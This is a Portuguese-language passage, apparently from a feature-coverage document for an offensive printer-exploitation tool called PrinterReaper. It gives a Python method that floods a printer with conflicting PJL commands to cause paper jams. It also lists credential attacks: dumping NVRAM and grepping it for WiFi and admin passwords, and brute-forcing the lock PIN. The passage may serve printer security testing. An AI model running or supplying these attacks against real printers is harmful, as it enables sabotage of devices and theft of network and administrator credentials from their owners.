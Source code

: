 ### ❌ 6.3 Paper Jam Attack (FALTANDO)
**PJL**: Comandos de alimentação conflitantes  
**PrinterReaper**: **NÃO IMPLEMENTADO**

**Implementação**:
```python
def do_paper_jam(self, arg):
    """Cause paper jam via conflicting feed commands"""
    output().warning("Attempting to cause paper jam...")
    
    # Send conflicting paper feed commands
    self.cmd("@PJL SET PAPER=LETTER", False)
    self.cmd("@PJL SET PAPER=A4", False)
    self.cmd("@PJL SET INTRAY1=MANUAL", False)
    self.cmd("@PJL SET INTRAY1=AUTO", False)
    
    # Print with conflicts
    for i in range(10):
        self.cmd("@PJL JOB", False)
        self.cmd("@PJL SET PAPER=LEGAL", False)
        self.cmd("@PJL SET FORMLINES=60", False)
        self.cmd("@PJL SET FORMLINES=88", False)
        self.cmd("@PJL EOJ", False)
```

---

## 7️⃣ CREDENTIAL ATTACKS (3/4 = 75%)

### ✅ 7.1 WiFi Password Extraction
**PJL**: `@PJL INFO WIFI` ou NVRAM dump  
**PrinterReaper**: `network`, `nvram dump`  
**Efeito**: Obter senha WiFi  
**Risco**: CRÍTICO

**Teste**:
```
network
nvram dump | grep -i "wifi\|wpa\|password"
```

### ✅ 7.2 Admin Password Extraction
**PJL**: NVRAM dump  
**PrinterReaper**: `nvram dump`  
**Efeito**: Senha de administrador

### ✅ 7.3 Lock PIN Brute Force (Manual)
**PJL**: `@PJL SET LOCKPIN=<pin>`  
**PrinterReaper**: `unlock <pin>` (loop)  
**Efeito**: Descobrir PIN de bloqueio
